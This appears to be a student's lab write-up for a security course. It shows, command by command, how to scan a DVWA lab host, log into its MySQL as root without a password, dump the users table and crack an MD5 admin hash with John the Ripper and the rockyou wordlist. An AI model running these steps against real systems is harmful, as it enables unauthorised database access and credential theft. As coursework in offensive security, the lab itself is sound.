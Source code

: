 # Lab 2: Cracking Weak Password Hashes & Exploiting Poor Authentication

*Time Allocated: 3 Hours
Total Marks: 15* 

## OBJECTIVES
1. Find and exploit weak crypto in database login and password storage.

2. Do offline cracking of password hashes found in the database.

3. Learn from real-world crypto mistakes and suggest better ways.

4. Write a report in GitHub (Markdown) and show a short demo.

## LAB TASK
### 1. Service enumeration and initial access

### **run scan to see open port for my sql**

run n map scan to look for mysql port . Use:


```bash
nmap -sS -sV -p- 192.168.100.131
```
*we can see that our target's my sql port is available which is port 3306.*


![alt text](Screenshot/nmap-scan.png.png)


I try to connect to the database using:


 ```
 my sql -h 192.168.100.131
 ```


but it shows error ><


![alt text](Screenshot/mysql_error.png)


### **WHY DOES THIS HAPPEN?**

This is because  MySQL Server  enforcing SSL/TLS, but the client and server disagree on the encryption protocol version.

### **HOW TO FIX IT?**

we need to disabled SSL so we can make a connection. Use:


```
mysql -h 192.168.100.131 -u root --ssl=off
```


*by doing this we have disable SSL and bypasses the error but our credentials are not secured as it is not encrypted*


![alt text](Screenshot/mysql-success.png)


### 2. USER ENUMERATION AND WEAK AUTHENTICATION

next step is to get the information about the database using:


```bash
show databases;
```


![alt text](Screenshot/show-databases.png)



*here we can see the dvwa which are vulnerable*

so we will be needing to look trough dvwa table using:


```bash 
use dvwa;
```


![alt text](Screenshot/use-dvwa.png)


we will need to list the table so use:


```bash
show tables;
```


![alt text](Screenshot/show-tables.png)



*as we found user's database now we can use it*


try too look for passwords in users database using:


```bash
select * from users;
```


![alt text](Screenshot/users-database.png)



*From this output we can crack the password that we choose.In this case i choose admin's passwords which is:*


```bash
5f4dcc3b5aa765d61d8327deb882cf99
```

Now lets try to figure out what kind of hash is that.


### 3. PASSWORD HASH DISCOVERY AND HASH IDENTIFICATION


we will be using hash-identifier tool. To open it using kali type :


```bash 
hash-identifier
```


![alt text](Screenshot/hash-id.png)



enter the hash and we will get the result !!



![alt text](Screenshot/identifier-result.png)



4. CRACK THE PASSWORD



create file hash.txt and paste the hash in it. Use :


```
echo "5f4dcc3b5aa765d61d8327deb882cf99">hash.txt  
```


![alt text](Screenshot/hash-txt.png)



Then we will need to crack it using john the reaper. Use:


```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```


![alt text](Screenshot/pass-crack.png)


fnally now we can show the password using:


```bash
cat ~/.john/john.pot 
```


![alt text](Screenshot/john-pot.png)



